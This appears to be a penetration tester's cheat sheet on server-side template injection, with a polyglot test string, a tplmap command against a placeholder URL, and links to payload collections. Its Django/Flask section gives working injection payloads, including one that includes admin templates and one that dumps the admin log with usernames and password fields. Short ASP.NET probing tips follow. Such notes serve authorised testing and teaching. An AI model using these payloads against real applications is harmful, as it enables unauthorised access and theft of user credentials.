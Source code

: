 # SSTI

|**Exploitation**||
|---|---|
||Templating Engines are used to dynamically generate content|
|**Test String**||
||`${{<%[%'"}}%\.`|

## Tools

```
# https://github.com/epinna/tplmap
tplmap.py -u 'http://www.target.com/page?name=John'
```

## Python Django/Flask

Detection:

```
{% if 'str' = 'str' %} vuln {% endif %}
{% debug %}
```

Disclose pages:

```
{% include 'admin/base.html' %}
```

Disclose log table:

```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## ASP/APS.NET/ASPX

- % is a key character
- If `<%` returns 500, try `<%= 7*7 %>`

## Tips

Try to SSTI with the fuzz string provided in cobalt.io blog post refered below

| URL                                                                                                                                                                  | Description                |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------- |
| [https://github.com/DiogoMRSilva/websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI)                                                 | Engines vulnerable to SSTI |
| [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)                                                                           | Payloads                   |
| [https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti) | Blog about SSTI            |